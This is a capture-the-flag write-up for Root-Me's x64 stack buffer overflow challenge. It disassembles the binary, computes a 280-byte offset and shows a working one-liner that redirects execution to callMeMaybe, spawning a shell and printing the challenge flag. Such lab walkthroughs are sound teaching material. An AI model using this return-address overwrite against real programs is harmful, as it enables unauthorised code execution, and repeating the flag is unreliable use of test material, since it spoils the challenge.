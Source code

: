 # ELF x64 - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 Yes 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch35@challenge02.root-me.org   
Username	app-systeme-ch35
Password	app-systeme-ch35
```
Let's reverse the assembly abit:
```asm
   0x0000000000400628 <+0>:	push   rbp
   0x0000000000400629 <+1>:	mov    rbp,rsp
   0x000000000040062c <+4>:	sub    rsp,0x120
   0x0000000000400633 <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400639 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400640 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400647 <+31>:	mov    rsi,rax
   0x000000000040064a <+34>:	lea    rdi,[rip+0xd0]        # 0x400721
   0x0000000000400651 <+41>:	mov    eax,0x0
   0x0000000000400656 <+46>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x000000000040065b <+51>:	lea    rax,[rbp-0x110]
   0x0000000000400662 <+58>:	mov    rdi,rax
   0x0000000000400665 <+61>:	call   0x4004c0 <strlen@plt>
   0x000000000040066a <+66>:	mov    DWORD PTR [rbp-0x4],eax
   0x000000000040066d <+69>:	lea    rax,[rbp-0x110]
   0x0000000000400674 <+76>:	mov    rsi,rax
   0x0000000000400677 <+79>:	lea    rdi,[rip+0xa6]        # 0x400724
   0x000000000040067e <+86>:	mov    eax,0x0
   0x0000000000400683 <+91>:	call   0x4004d0 <printf@plt>
   0x0000000000400688 <+96>:	mov    eax,0x0
   0x000000000040068d <+101>:	leave  
   0x000000000040068e <+102>:	ret  
```
Before the **scanf** call, there are some allocations in the stack. First, the program will allocate 288 bytes for the function.<br>
Next, it will allocate 272 bytes for the buffer (which according to the source code should only take 256 bytes).<br>
So, basically the stack should look like the following figure, just before calling the **scanf** function:

```
                        +----------------+
                        | return address |
                        +----------------+
                        |   alignment    |
                        +----------------+
                        |                |
                        |  272 bytes of  |
                        |   the buffer   |
                        |                |
                        +----------------+
```

So, basically one should write 280 bytes and then write the wanted return address (in this case, the address to **callMeMaybe**).<br>
Let's verify it:
```sh
app-systeme-ch35@challenge03:~$ python -c "print 'A'*280 + 'DDDD'" | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
Well it looks like the return address was changed (according to the segmentation fault).<br>
If we'll change the "DDDD" to the address of the **callMeMaybe** function we should get our shell:
```sh
app-systeme-ch35@challenge03:~$ cat <(python -c 'print "A"*280+"\xe7\x05\x40"+"\x00"*5') - | ./ch35
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
id
uid=1135(app-systeme-ch35) gid=1135(app-systeme-ch35) euid=1235(app-systeme-ch35-cracked) groups=1135(app-systeme-ch35),100(users)
cat .passwd
B4sicBufferOverflowExploitation
```


